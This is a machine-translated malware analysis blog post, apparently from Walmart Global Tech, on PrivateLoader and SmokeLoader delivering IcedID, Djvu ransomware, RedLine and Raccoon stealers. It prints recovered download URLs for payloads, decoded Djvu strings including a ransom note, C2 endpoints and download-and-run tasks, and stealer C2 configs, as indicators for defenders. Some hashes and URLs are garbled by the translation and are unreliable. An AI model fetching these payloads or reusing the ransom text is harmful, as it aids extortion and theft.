

# IcedID 利用 PrivateLoader

> 原文：<https://medium.com/walmartglobaltech/icedid-leverages-privateloader-7744771bf87f?source=collection_archive---------6----------------------->

作者:约书亚·普拉特和杰森·里维斯


PrivateLoader[1，2，3，4]继续作为有效的装载服务发挥作用，最近利用 SmokeLoader 进行装载。

他们的 SmokeLoader 的最新样本可以在这里看到(b 01195 C3 e 828d 9 a 79 c 958 E4 c 810 a 363d 804d 51996337 db 89 a5d 248096846 b 27 a)，该样本的 C2 域是 PrivateLoader 的标志:

```
host-file-host6.com
host-host-file8.com
```

这些域只是简单的代理，但是在它们的背后是一个巨大的操作，为不同的客户执行数百万的负载。最近，一位新客户开始利用这项服务，这引起了我们的注意，在前面提到的 SmokeLoader 散列中，您可以看到正在运行的所有任务:


Ref: Virustotal.com

从 DNS 解析中，我们可以看到 SmokeLoader 与相当多的其他活动一起登记，其中一些与机器人加载的任务有关，但域的 deficulintersun[。]com 是 IcedID 加载程序的 C2。幸运的是，VirusTotal 上的 Zenbox 为我们留下了一个 PCAP，因此我们可以解密 SmokeLoader 流量，并有望恢复任务。

C2 交通

```
\xe4\x078F1CEBFF99E357584119ACFBC1B392A2383170A8\x00DESKTOP-B0T93D6\x00pub3\x00
```

所以组是 pub3，bot 的版本是 0x7e4 或者 2020。恢复的任务如下:

```
Location: http://rgyui.top/dl/buildz.exe
Location: https://dl.uploadgram.me/62e817d1aff5ah?dl
Location: https://allejee.com/bulking.exe
Location: http://194.87.31.137/7loader_exe_64.exe
Location: http://2.58.28.60/csflow.exe
```

# 烟雾弹任务

我从 buildz.exe 得到的文件显示是 Djvu 勒索软件，这里更有趣的部分是勒索软件样本是用与 SmokeLoader 样本相同的密码器加密的。再加上 IcedID 已被视为导致勒索软件本身的事实，服务提供商与其客户或竞争客户之间可能会发生利益冲突？

解码的 Djvu 字符串:

```
http://acacaca.org/test1/get.php 2http://rgyui.top/dl/build2.exe$run http://acacaca.org/files/1/build3.exe$run 3Select Dec... 4_readme.txt 5ATTENTION! 6Don't worry, you can return all your files! 7All your files like pictures, databases, documents and other important are encrypted with s 8trongest encryption and unique key. 9The only method of recovering files is to purchase decrypt tool and unique key for you. 10This software will decry 11pt all your encrypted files. 12What guarantees you have? 13You can send one of your encrypted file from your PC and we decrypt it for free. 14But we can 15decrypt only 1 file for free. File must not contain valuable information. 16You can get and look video overview decrypt tool: 17https://we.tl/t-QsoSRIeA 18Price of private key and decrypt software is $980\. 19Discount 50% available if you contact us first 72 hours, that's price for you is $490\. 20Please 21 note that you'll never restore your data without payment. 22Check your e-mail "Spam" or "Junk" folder if you don't get answer more than 6 hours. 23To get this software you need write on our e-mail: 24support@bestyourmail.ch 25Reserve e-mail address to contact us: 26datarestorehelp@airmail.cc 27ur personal ID: 280530Jhyjd 29.vvew 30/acacaca.org/test1/get.php 31/acacaca.org/test1/get.php 32ntuser.dat|ntuser.dat.LOG1|ntuser.dat.LOG2|ntuser.pol|.sys|.ini|.DLL|.dll|.blf|.bat|.lnk|.regtrans-ms|C:\SystemID\|C:\Users\Default User\|C:\Users\Pub 33lic\|C:\Users\All Users\|C:\Users\Default\|C:\Documents and Settings\|C:\ProgramData\|C:\Recovery\|C:\System Volume Information\|C:\Users\%username%\A 34ppData\Roaming\|C:\Users\%username%\AppData\Local\|C:\Windows\|C:\PerfLogs\|C:\ProgramData\Microsoft\|C:\ProgramData\Package Cache\|C:\Users\Public\|C 35:\$Recycle.Bin\|C:\$WINDOWS.~BT\|C:\dell\|C:\Intel\|C:\MSOCache\|C:\Program Files\|C:\Program Files (x86)\|C:\Games\|C:\Windows.old\|D:\Users\%usernam 36e%\AppData\Roaming\|D:\Users\%username%\AppData\Local\|D:\Windows\|D:\PerfLogs\|D:\ProgramData\Desktop\|D:\ProgramData\Microsoft\|D:\ProgramData\Packa 37ge Cache\|D:\Users\Public\|D:\$Recycle.Bin\|D:\$WINDOWS.~BT\|D:\dell\|D:\Intel\|D:\MSOCache\|D:\Program Files\|D:\Program Files (x86)\|D:\Games\|E:\Us 38ers\%username%\AppData\Roaming\|E:\Users\%username%\AppData\Local\|E:\Windows\|E:\PerfLogs\|E:\ProgramData\Desktop\|E:\ProgramData\Microsoft\|E:\Progr 39amData\Package Cache\|E:\Users\Public\|E:\$Recycle.Bin\|E:\$WINDOWS.~BT\|E:\dell\|E:\Intel\|E:\MSOCache\|E:\Program Files\|E:\Program Files (x86)\|E:\ 40Games\|F:\Users\%username%\AppData\Roaming\|F:\Users\%username%\AppData\Local\|F:\Windows\|F:\PerfLogs\|F:\ProgramData\Desktop\|F:\ProgramData\Microso 41ft\|F:\Users\Public\|F:\$Recycle.Bin\|F:\$WINDOWS.~BT\|F:\dell\|F:\Intel\ 42-----BEGIN PUBLIC KEY-----\\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAwX6oUNb4mk19lyNBxK80\\nWDzdQgJ9XMg2LdYk3Hm0F0zP2rWDuKVpyAbosbOzGKbJOkVa\/1Xby 43tFAm8RYfkB\/\\nnfEgGh5OGcw\/CcqqOL3R4Vpd7slLVXc56FLkTWEMSShzg1sNxgIiQm8VcaXOgUk8\\ntvWKcUIV9ujXmn5UBSy\/ICDPveI3QCaxZod7kIBwZzszO\/3CvNwAy3eejgJ6j8ie\ 44\nmwJ9pjskzLjmq92yhDGUQygWfGw0tL1KtSiqUy2M7KNdmD4FX1aVeutZC9bggvn8\\nV4ksJChvMxI521ms58donyKjwBAbKXBfVRaXUV2k34bI0NQqhLz5OeGIRhn67oe+\\njwIDAQAB\\n--- 45--END PUBLIC KEY----- 46ild2.exe$run http://acacaca.org/files/1/build3.exe$run 47rE5LpDv2ftYRXAo7bC18EpzfRMTHSGjgfyIMfZt1 48/acacaca.org/files/1/build3.exe$run
```

来自上传程序 62e817d1aff5ah 的文件原来是红线窃用者:

```
{'C2': '193.233.193.14:8163', 'BOTNET': 'LogsDiller Cloud (Sup: @mr_golds)'}
```

我们发现 allejee 的文件时，该文件已关闭，但我们确实在 VirusTotal 中发现了该服务器的同名文件:

```
03626471a65baf211f2110cd91e52b9e44524780e042a473cd09d864d9af20a0
```

7 月，同一台服务器上有 ITW 的网址:


Ref: [https://www.virustotal.com/gui/file/03626471a65baf211f2110cd91e52b9e44524780e042a473cd09d864d9af20a0/relations](https://www.virustotal.com/gui/file/03626471a65baf211f2110cd91e52b9e44524780e042a473cd09d864d9af20a0/relations)

这个文件是一个自解压 EXE 文件，由 Nir Sofer 签名，解压后的 EXE 文件是一个简单的。基于. NET 的加载程序，将下载和执行更多。NET 代码，最终这导致浣熊盗窃者 V2[5]。


.NET based loader

csflow.exe 的可执行文件是 CoinSurf 的安装程序，它允许人们将他们的流量使用货币化。

最后，7loader_exe_64.exe 文件是 IcedID 加载程序:

```
{'C2': 'deficulintersun.com', 'Campaign': 1514253643}
```

PrivateLoader 并不是第一次有一些更大的名字利用它，因为以前的研究表明它以前被 TrickBot，Qakbot，DanaBot 和 Dridex 利用过。更紧迫的问题是，为什么这些组织会利用一个主动窃取数据并在他们的机器人上放置勒索软件的系统？

# IOCs

SmokeBot 任务:



网络指示器:

```
rgyui.top
allejee.com
194.87.31.137
2.58.28.60
host-file-host6.com
host-host-file8.com
64.52.80.224 - Raccoon Stealer
deficulintersun.com - IcedID
acacaca.org - Djvu Ransomware
193.233.193.14:8163 - RedLine Stealer
2.58.28.60/install.txt
2.58.28.60/startup.txt
```

# 参考

1:[https://intel471.com/blog/privateloader-malware](https://intel471.com/blog/privateloader-malware)

2:[https://medium . com/walmartglobaltech/private loader-to-anubis-loader-55d 066 a 2653 e](/walmartglobaltech/privateloader-to-anubis-loader-55d066a2653e)

3:[https://www . z scaler . com/blogs/security-research/peeking-private loader](https://www.zscaler.com/blogs/security-research/peeking-privateloader)

4:[https://Tavares . re/blog/2022/06/06/hunting-priva loader-pay-per-install-service/](https://tavares.re/blog/2022/06/06/hunting-privateloader-pay-per-install-service/)

5:[https://www . bleeping computer . com/news/security/浣熊-steaker-is-back-with-a-new-version-to-steak-your-passwords/](https://www.bleepingcomputer.com/news/security/raccoon-stealer-is-back-with-a-new-version-to-steal-your-passwords/)